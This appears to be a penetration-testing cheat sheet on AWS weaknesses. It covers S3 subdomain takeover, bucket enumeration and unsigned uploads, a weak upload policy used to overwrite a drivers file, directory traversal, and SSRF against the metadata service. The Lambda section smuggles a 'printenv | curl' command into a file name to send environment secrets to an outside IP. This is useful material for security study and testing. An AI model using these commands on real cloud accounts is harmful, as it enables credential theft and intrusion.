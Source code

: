 # AWS

## S3 Buckets

### Subdomain Takeover

> Take control of a domain that was previously associated with a deprovisoned AWS resource is also known as a Subdomain Takover vulnerability 

##### Crear bucket

* aws s3 mb s3://example.domain.com
* aws s3api create-bucket --bucket example.domain.com --region eu-west-2 --create-bucket-configuration LocationConstraint=eu-west-2

##### Eliminar bucket

* aws s3 rb s3://example.domain.com --force

##### Configure bucket

* aws s3api put-bucket-policy --bucket example.domain.com --policy file://policy.json

##### Upload to bucket

* aws s3 sync ./static/ s3://example.domain.com
* aws s3 cp poc.html s3://example.domain.com

##### Enable public access

* aws s3 website s3://assets.cloudbilling.net/ --index-document index.html --error-document index.html

#### security vulnerabilities such as:

* Server-Side Request Forgery 
* Open Redirect
* CRLF Attacks

* Hosting Phishing websites
* Hosting Malware
* Bypassing CSP policies
* Stealing Cookie's
* Man-in-the-browser attacks

## Public Read Bucket

A bucket is considered **public** if any user can list the contents of the S3 bucket, and **private** if the bucket's contents can only be listed or written by certain S3 users.

#### Tool

```bash
user@DESKTOP-6F28SID:~$ pip install s3recon
user@DESKTOP-6F28SID:~$ s3recon "word-list.txt" -o "results.json" --public
- PRIVATE https://s3.us-west-2.amazonaws.com/roblox-test
- PRIVATE https://s3.us-west-2.amazonaws.com/roblox
- PUBLIC https://s3.us-west-2.amazonaws.com/example-test
```

#### Manual
```bash
user@DESKTOP-6F28SID:~$ aws s3 ls s3://domain --no-sign-request
An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist
```

## Public Upload Bucket

#### Manual
```bash
user@DESKTOP-6F28SID:~$ aws s3 cp poc.html s3://domain --no-sign-request
load to s3://
```

## S3 Directory traversal

```http
GET /get-image/ HTTP/1.1
HOST: example-domain.eu-west-2.amazonaws.com

{"image": "../../"}

Response

{
https://example-domain.s3.eu-west-2.amazonaws.com/?X-Amz-Security-Token=dIQodJb3JpZad2X2VjEG4aCWV1LXdlc3QtMiJGMEQCIA%2FPVoPn7hBH9Y65nGfvbqRDlh9gw21MMSzwoZlPiA9qAiA9WRCjo3v0lMDfREssIMDz4k6RnAHuKLrVHt9r32HZlyrlAQim%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAMaDDM5MjsYxNTkwMTQyMiIMrXDPzyr7Q%2F7YAQaOKrkBFVlm5VPjyJQ6V9BalmtLIgCWYtbzsRv%2FlMdYU5jzqq9CZjnkzNk9gXHP%2FwtMafwerFnMBn1E%2Fz6hK9YCJacm8SESCtB%2BCSM8dshzGF8mGyMb1vxd9gxE7RikQT4zSIFLnbTNlXCOTEU6757fiSnIsCH%2B7hC1WcnlQRshH%2FULuM7DsPYhnedxeSaqmTk0Uwi%fas2asdVf2RNHePMFQtCDb0L5svPwjLGmbfHWeWjL0vdhSurGO4wq7DiggY64QG96vZcj6GUBVVjRXftMu7wjDH4DKEUpO%2BPuPEpzbVPCX1nDgEddMe%2B5YSNZvYLJIwvNMld00JtZ1FJZgGrOd0dAe%2FfC%2Ba4g3%2BGlieZA6%2BbLZ3UJ6GGlhJluO4LLczel4x4IeUhxnB7znJmkTCccul2PwkowHjABzSMcFd62yEirnWQVDogKlXNsjZllMoEKuGsLWb1D8uDoeuSVE89b06hSaBoNA%2Fzyu1kigVAGxstnW0Z8PD5FjmbfGnWMmaQEkIodyM1JS0uS8COK%2BInUlfFi2wTsyiMOXMqiqse90PhaPPM%3D&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20310322T134547Z&X-Amz-SignedHeaders=host&X-Amz-Expires=900&X-Amz-Credential=ASIAVW2N3HDXM37QBLWS%2F210210322%2Feu-west-2%2Fs3%2Faws4_request&X-Amz-Signature=9a2849e891b0f2cr4155e5c381f71ac047977edb85a997ccbf85d04c34b0a6277
}
```

## Weak S3 POST Upload Policy

The page has upload drivers via S3 bucket, also you can upload a file and replace the drivers file. 

However, Bob notices a misconfiguration with this policy attribute. The attribute should be defined with the following syntax:

["starts-with", "$key", "user/user1/"]

Since the key property is set to empty "", Bob can upload to any directory location in the S3 bucket by specifying an arbitrary key path in the POST request!

Content-Disposition: form-data; name="key"

downloads/drivers/launcher-bin-v3.2.0.296.dmg

## Lambda Command Injection

```bash
user@DESKTOP-6F28SID:~$ nc -l -p 80

user@DESKTOP-6F28SID:~$ touch "fff; printenv | curl 54.151.161.121 --data-urlencode @-; #.pdf"
```

## Misconfigured Reverse Proxy

Example subdomain proxy **proxy-jumpbox**

https://proxy-jumpbox.cloudbilling.net/?url=http://169.254.169.254/latest/meta-data

#### security vulnerabilities such as:

* Server-Side Request Forgery 
* Open Redirect
* CRLF Attacks

## Reference:
https://application.security/free/kontra-aws-clould-top-10
